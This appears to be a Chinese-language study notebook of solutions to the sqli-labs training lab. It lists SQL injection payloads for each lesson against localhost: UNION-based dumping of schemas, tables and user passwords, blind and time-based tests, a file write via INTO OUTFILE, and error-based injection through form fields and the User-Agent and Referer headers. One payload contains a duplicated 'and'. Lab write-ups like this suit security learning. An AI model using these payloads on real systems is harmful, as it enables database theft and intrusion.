 # sqli-labs

-    ##  less 1

     -  判断是否可以注入
     -  判断列数  
        - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=1'order by 4 -- a`
        - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=1'order by 3 -- a`
        - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1'union select 1,2,3 -- +`
     - 爆库
       - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata -- +`
     - 爆库下的表  
       -  `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'security' -- +`
     - 表下的列
        - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select 1,GROUP_CONCAT(column_name),3 from information_schema.columns where table_name='users' -- a`
     - result
       - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select 1,GROUP_CONCAT(username),GROUP_CONCAT(password) from users -- a`
-    ##  less 2
     - 与less1相同，只需要去掉      <b> '</b>       即可
-    ##  less 3
     - ` $sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`
     - 需要闭合 &emsp;<b>')</b>

-    ##  less 4
     -  对于字段是int类型的，如果你传入字符串（无论是在select, insert 还是 update)，他会尝试转为数字的
     -   `$id = '"' . $id . '"';`
     -   `$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";`
     -  如此闭合   
		`http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-4/?id=1") order by 3  -- a`

-   ##   less 5,6 
    - 均为盲注内容
    - <a href="盲注.md">盲注</a>
-   ##   less 7
    - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-7/?id=1'))  union select 1,2,3 into outfile "F:\\wampserver\\wamp64\\tmp\\file\\uuu3.txt" -- a`

-   ##   less 8
    - 延迟注入
    - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-8/?id=1' and 1=(if(SUBSTRING((select DATABASE()),1,1)='s',1,0))-- a`
-   ##   less 9
    -   无论输入对错 都返回 you are in
    -   基于时间盲注
    -   `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-9/?id=1' and  if((select database())='securitys',sleep(5),1)  -- a`

-   ##   less 10
    -   同 less9
    -   `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-10/?id=1" and if((select database())='security',sleep(5),1) -- a`
-   ##   less 11
    -   post注入
    -   提交 `1admin'union select 1,database()#`
-   ##   less 12
    -   `1admin")union select 1,database()#`
-   ##   less 13
    -   `1admin')or left(database(),1)='s' -- a`
-   ##   less 14
    -   `1admin" or left(database(),1)='s' -- a`
-   ##   less 15
    -   `adm1in1'or 1=(If(substr(database(),1,1)='s',1,2))#`
-   ##   less 16
    -   `adm1in1") or 1=(If(substr(database(),1,1)='s',1,2))#`
-   ##   less 17
    -  ` admin`
    -   `123' and and (extractvalue(1,concat(0x7e,(select user()),0x7e)));`
-   ##   less 18
    -   `admin`
    -   `admin`
    -   user-agent:` 'and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1`
-   ##   less 19
    -   `admin`
    -   `123`
    -   `Referer: 'and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1`